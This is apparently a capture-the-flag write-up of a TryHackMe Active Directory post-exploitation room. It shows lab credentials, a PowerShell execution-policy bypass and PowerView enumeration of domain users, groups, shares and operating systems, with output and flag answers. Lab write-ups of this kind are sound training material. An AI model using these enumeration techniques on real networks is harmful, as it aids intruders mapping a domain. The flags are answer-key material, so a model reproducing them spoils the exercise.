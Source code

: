 # Post Exploitable

----------------------------

> https://tryhackme.com/room/postexploit

> IP : 10.10.189.246

--------------------------

**Given Credentials**
```
ssh/Rdp connect

User:Administrator
Pass:P@$$W0rd
Domain:Controller
```

`powershell -ep bypass` 

>ep bypasses the execution policy of powershell allowing you to easily run scripts

```
Controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> 
```

---------------------------------------------------

**Enumeration w/ Powerview**

> starting powerview tool in powershell

```
PS C:\Users\Administrator\Downloads> ls


    Directory: C:\Users\Administrator\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/14/2020  11:39 AM        1261832 mimikatz.exe
-a----        5/14/2020  11:41 AM         374625 PowerView.ps1
-a----        5/14/2020  11:43 AM         973325 SharpHound.ps1


PS C:\Users\Administrator\Downloads> .\PowerView.ps1
```

_Enumerate the domain users_ - `Get-NetUser | select cn`

```
PS C:\Users\Administrator> Get-NetUser | select cn

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```



_Enumerate the domain groups_ - `Get-NetGroup -GroupName *admin*`
```
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin*
Administrators 
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```
> Here's a cheatsheet to help you with commands: 
> https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

**Answering Question from this section**

```
1.What is the shared folder that is not set by default? 

=> share

```
Explaination

> just see the hint : Invoke-ShareFinder

```
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```
-------------------------------

```
2.What operating system is running inside of the network besides Windows Server 2019?

=> Windows 10 Enterprise Evaluation

```
```
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem   

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```
---------------------------------------
```
3.I've hidden a flag inside of the users find it

=> POST{P0W3RV13W_FTW}
```
Explaination 

> Refer to Enumuration part above 

----------------------------------------

